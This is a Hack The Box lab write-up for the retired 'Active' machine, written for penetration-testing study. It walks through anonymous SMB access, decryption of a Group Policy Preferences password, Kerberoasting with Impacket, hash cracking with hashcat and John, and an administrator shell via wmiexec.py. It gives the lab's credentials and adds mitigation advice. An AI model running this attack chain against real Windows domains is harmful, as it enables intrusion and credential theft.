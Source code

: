 # HTB Active Overview
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/25cad8ed-48db-477f-950b-729d83dd9716)

[Active](https://app.hackthebox.com/machines/Active) is an easy-rated retired Machine. It features concepts of SMB, LDAP, Password Decryption, Kerberos Ticketing System, Authenticated Enumeration, and Privilege Escalation.

_Note: Write-ups are only allowed for Retired machines._

Target Machine ip: `10.10.10.100`

## Enumeration
### Network Scan
Let's scan to see which ports are open.

**Quick Scan** <br>
`nmap -sC -sV -Pn --min-rate 1000 10.10.10.100` <br>
`**-sC** Performs a script scan using the default set of scripts  <br>
**-sV** version detection  <br>
**-Pn** quiet port scan  <br>
**--min-rate 1000** request that Nmap send at least 1,000 packets per second
 
**Full Scan** <br>
 `sudo nmap -sC -sV -p- 10.10.10.100 -oN nmap.out`  <br>
**-sC** Performs a script scan using the default set of scripts <br>
**-sV** version detection <br>
**-p-** scans all ports <br>
**-oN nmap.out** outputs scan results into a file named nmap.out in the current working directory

![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/19b77058-f3b2-4ac8-8c4d-b14f7496f715)

**Interesting open ports:** <br>
`53 DNS` : Target is using Windows Server 2008 R2 SP1  <br>
`88 kerberos` : Ensuring we stay within a 1-minute window of the listed server time if we need to do an authenticated login.  <br>
`389 LDAP` : Windows AD, and we can add the domain name `active.htb` and target ip `10.10.10.100` to our `/etc/host` file.  <br>
`445 SMB` : We can check available SMB shares and confirm any low-hanging fruits like unauthenticated logins.


### DNS 
Add the `<target ip>` and the `<hostname>` into our `/etc/hosts` file, so we can use the domain name in later steps.

`echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts`

### SMB - TCP 139/445 
We'll use `smbclient` to list out any available file shares.

`smbclient -L //10.10.10.100` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/6775ee3f-6407-4902-8e50-21d6e53ffc33)

But which one do we know which share to try? Well, `smbmap` is a more robust tool that can help us with this. <br>
I found very useful feature distinctions about the various SMB tools in this article by [Raj Chandel](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)

`smbmap -H 10.10.10.100` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/4a774646-4b00-4fc7-adb5-bdfd4137b6c6)

`smbmap` showed that the only share possible we can access with Anonymous credentials is the “Replication” share, which also appears to be a copy of the `SYSVOL` share.

As `Group Policies` (and Group Policy Preferences) are stored in the `SYSVOL` share, authenticated users can freely read the information. I researched more on "GPP exploitation" and found a great resource from [VK9 Security](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/).


## Foothold

As per the article, we'll be looking for the `Groups.xml` file. 

Note: Group Policy Preferences (GPP) was introduced in Windows Server 2008 which allowed admins to modify users and groups across their network. The defined password was `AES-256` encrypted and stored in `Groups.xml`. However, this was remediated with the later releases of Windows Server 2012. [Knowledge Base Article 2962486](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30)

`smbclient //10.10.10.100/Replication` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/459db31d-afc8-40ce-8740-5651391ebc02)

We confirm that we're in the correct share by using the `list` command <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/7378d917-3516-412b-bafa-faeb9e730040)

After connecting to the `Replication` share, let's download the contents recursively. We see the wanted `Groups.xml` file that typically contains username/password credentials for later exploitation.

`RECURSE ON` <br>
`PROMPT OFF` <br>
`mget *`  <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/078f40e6-236f-4823-8796-8eca764689dc)

When we open the `Groups.xml` file, we find the username as well as an encrypted password. 

Domain user: `active.htb\SVC_TGS` <br>
Encrypted password: `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/d686f36a-d8e8-4b8e-b499-42a1970cc206)

Next, we will decrpyt this password using `dpp-decrypt`, a tool which comes natively with Kali Linux. 

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/38527d57-89d9-454a-a958-bd36c8dfb427)

Password: `GPPstillStandingStrong2k18`

The domain account `SVC_TGS` has the password `GPPstillStandingStrong2k18`

## Group Policy Preference Exploitation Mitigation:
+ Install [KB2962486](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30) on every computer used to manage GPOs which prevents new credentials from being placed in `Group Policy Preferences`. <br>
* Delete existing GPP xml files in `SYSVOL` containing passwords.

## Authenticated Enumeration
We can now further enumerate the system since that we have valid credentials for the `active.htb` domain. <br>

`smbmap -H 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18` <br>
**-H** for Host <br>
**-u** for username <br>
**-p** for password <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/aaa4c512-65c0-40e6-aed5-377c14a82195) <br>
We confirmed that the `SYSVOL` and `Users` shares are now accessible.

We connect to the `Users` share, and navigate to the user: `SVC_TGS`'s Desktop, where the user flag can be found.

Connect with a username and password: <br>
`smbclient //server/share --user username%password` <br>
`smbclient //10.10.10.100/Users --user SVC_TGS%GPPstillStandingStrong2k18` 

When we access the `Users` share, we are logged in at the `C:\users\` folder
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/32fc9aa9-c02f-49d2-ae1e-951cd798dc4a)

`cd SVC_TGS\Desktop\` <br>
`ls` <br>
`get user.txt` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/29ebaddf-2e2e-4b1d-9c7a-e9c6f88f01e9)

Back on our hostmachine tab: <br>
`cat user.txt` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/9240e06b-1fc0-4cf5-b11e-3b317526caa9)

User flag captured! <br>
`ba07*********5e32`

# Privilege Escalation
Impacket’s `GetADUsers.py` simplifies the process of enumerating domain user accounts. <br>
_Impacket is another native tool found in Kali Linux._

`GetADUsers.py -all <domain name>/<username> -dc-ip <target_ip>`

`GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100` <br>
Password: `GPPstillStandingStrong2k18` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/341878dc-a824-4dbd-ad26-bd03f5494ee0)

We use Impacket's `GetUserSPNs` to get a list of service usernames (linked to regular user accounts) and discover a kerberos ticket that we'll try to crack. 

`GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request` <br>
password: `GPPstillStandingStrong2k18` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/abc4fbdb-6c7a-4d61-8527-ceee74878052)

Success!

This gives us the kerberos ticket hash. We'll create a new text file, and copy + paste the kerberos ticket hash named 'hash.txt'

## Cracking the kerberos ticket hash
We can use either `hashcat` or `john` (the Ripper), along with `rockyou.txt` to crack the hash. <br>

### Hashcat
This kerberos ticket's hash matches with the pattern from id: `13100`	<br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/d031e608-e116-48ac-9340-f7844af1a935)

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

or

### John the Ripper

`john hash.txt -w=/usr/share/wordlists/rockyou.txt` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/d08695ca-7c9c-47c7-84a0-b91fbf61ae08) <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/8030ef69-a8e6-4413-a480-7474c0a1f709)

Through either methods, we found the username: `active\administrator` and password: `Ticketmaster1968`

Now, let's continue using another one impacket's versitile tools to establish a shell to the Window's system: `wmiexec.py`

`wmiexec.py <domain>/<username>:<password>@<target ip address>` <br>
`wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/af9c58c0-4ada-400d-b1f1-8672f81afe68)

Perfect!
Now that we have Administrator access, the root flag can be found at `C:\Users\Administrator\Desktop\root.txt`

`cd C:\Users\Administrator\Desktop\` <br>
`dir` <br>
`type root.txt` <br>
![image](https://github.com/snguyenpentest/HTB-writeups/assets/147453895/264a1c54-acb9-4025-a170-c49e8edb7ca3)

Root Flag captured! <br>
`db8c**********34a2`
